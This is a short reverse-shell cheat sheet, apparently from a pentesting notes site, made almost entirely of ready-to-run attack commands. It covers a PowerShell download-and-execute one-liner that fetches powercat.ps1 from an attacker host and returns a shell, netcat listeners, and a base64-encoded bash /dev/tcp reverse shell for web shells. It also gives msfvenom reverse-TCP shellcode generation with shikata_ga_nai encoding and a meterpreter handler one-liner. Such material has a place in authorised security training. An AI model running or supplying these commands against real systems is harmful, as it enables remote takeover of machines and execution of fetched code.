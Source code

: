 ```yaml
---
description: Various reverse shell techniques in fast go cheat-sheet format
---
```


# 🐚 Reverse Shells

### Powercat

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

### Bash pipe

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

### Msfvenom&#x20;

Generating shell code

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```

Generating obfuscated shell code with bad words:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
